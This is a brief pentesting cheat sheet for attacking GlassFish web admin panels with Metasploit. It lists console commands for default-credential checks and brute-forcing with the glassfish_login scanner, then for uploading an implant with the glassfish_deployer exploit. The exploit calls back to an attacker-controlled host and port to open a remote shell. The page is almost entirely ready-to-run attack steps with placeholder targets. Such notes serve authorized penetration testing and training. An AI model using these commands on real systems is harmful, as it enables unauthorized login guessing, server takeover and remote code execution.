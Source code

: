 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - web-panel
  - glassfish
  - metasploit-framework
---
```

# Metasploit

## 01 - Default Credentials

```
msf > use auxiliary/scanner/http/glassfish_login

msf auxiliary(scanner/http/glassfish_login) > options

msf auxiliary(scanner/http/glassfish_login) > set rhost <target_IP>

msf auxiliary(scanner/http/glassfish_login) >

msf auxiliary(scanner/http/glassfish_login) > run
```

## 02 - Bruteforce

```
msf > use auxiliary/scanner/http/glassfish_login

msf auxiliary(scanner/http/glassfish_login) > set rhost <target_IP>

msf auxiliary(scanner/http/glassfish_login) >

msf auxiliary(scanner/http/glassfish_login) > run
```

## 03 - Upload Implant

```
msf > use exploit/multi/http/glassfish_deployer

msf exploit(multi/http/glassfish_deployer) > options

msf exploit(multi/http/glassfish_deployer) > set lhost <attacker_IP>

msf exploit(multi/http/glassfish_deployer) > set lport <attacker_PORT>

msf exploit(multi/http/glassfish_deployer) > set rhost <target_IP>

msf exploit(multi/http/glassfish_deployer) > run username=<username> password=<password>
```

---
## References

- [Rapid7: Metasploit Framework - Glassfish Deployer Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/glassfish_deployer.md)